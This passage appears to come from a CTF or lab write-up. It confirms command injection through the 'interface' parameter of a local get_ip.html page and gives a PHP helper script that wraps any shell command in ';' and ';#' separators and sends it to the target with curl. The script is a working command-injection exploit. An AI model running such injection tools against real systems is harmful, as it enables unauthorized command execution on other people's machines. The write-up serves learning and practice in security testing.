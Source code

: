 ![yayps](img/08.png)

The page indeed return the "ps" output. We have **CMD Injection**!!

I wrote [cmdInject.php](cmdInject.php) to make it easier to perform this injection.

```php
$url = "127.0.0.1:8080/get_ip.html?interface=";
$cmd = $argv[1];
$cmd = str_replace(" ", "%20", $cmd); // use %20 for space in cmd line
$cmd = urlencode("aaa;").$cmd.urlencode(";#"); 
$full = $url.$cmd;

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $full);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$resp = curl_exec($ch);
echo $resp."\n";
curl_close($ch);
```
